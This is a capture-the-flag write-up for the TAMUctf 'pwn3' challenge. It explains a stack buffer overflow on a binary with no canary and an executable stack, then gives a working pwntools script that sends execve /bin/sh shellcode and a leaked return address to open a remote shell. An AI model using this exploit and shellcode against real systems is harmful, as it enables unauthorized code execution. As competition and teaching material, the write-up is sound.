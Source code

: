 # pwn3.md

nc pwn.tamuctf.com 4323

For this problem, there's no stack canary and the stack is executable. So all I have to do is return to my code and execute it to spawn a shell. The program actually returns the stack address corresponding to the start of the input string stored to the stack, so I just have to return there. For this problem, I used some 32-bit shellcode that I already had lying around -- I think it was from ShellStorm originally. I need 302 bytes of input followed by the return address.

Here's the exploit code:

```
# Solve 3.py

from pwn import *
from time import sleep

p = remote('pwn.tamuctf.com', 4323)

p.recvuntil("0x")
shellcode_address = int(p.recv(8),16)
print("stack address = " + str(shellcode_address))
shellcode = "\x31\xC0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\x52\x89\xe2\xb0\x0b\xcd\x80"
payload = shellcode + "A"*(302-len(shellcode)) + p32(shellcode_address) + "\n"
p.send(payload)
p.interactive()
```

![./flag.png](./flag.png)

Short and sweet.
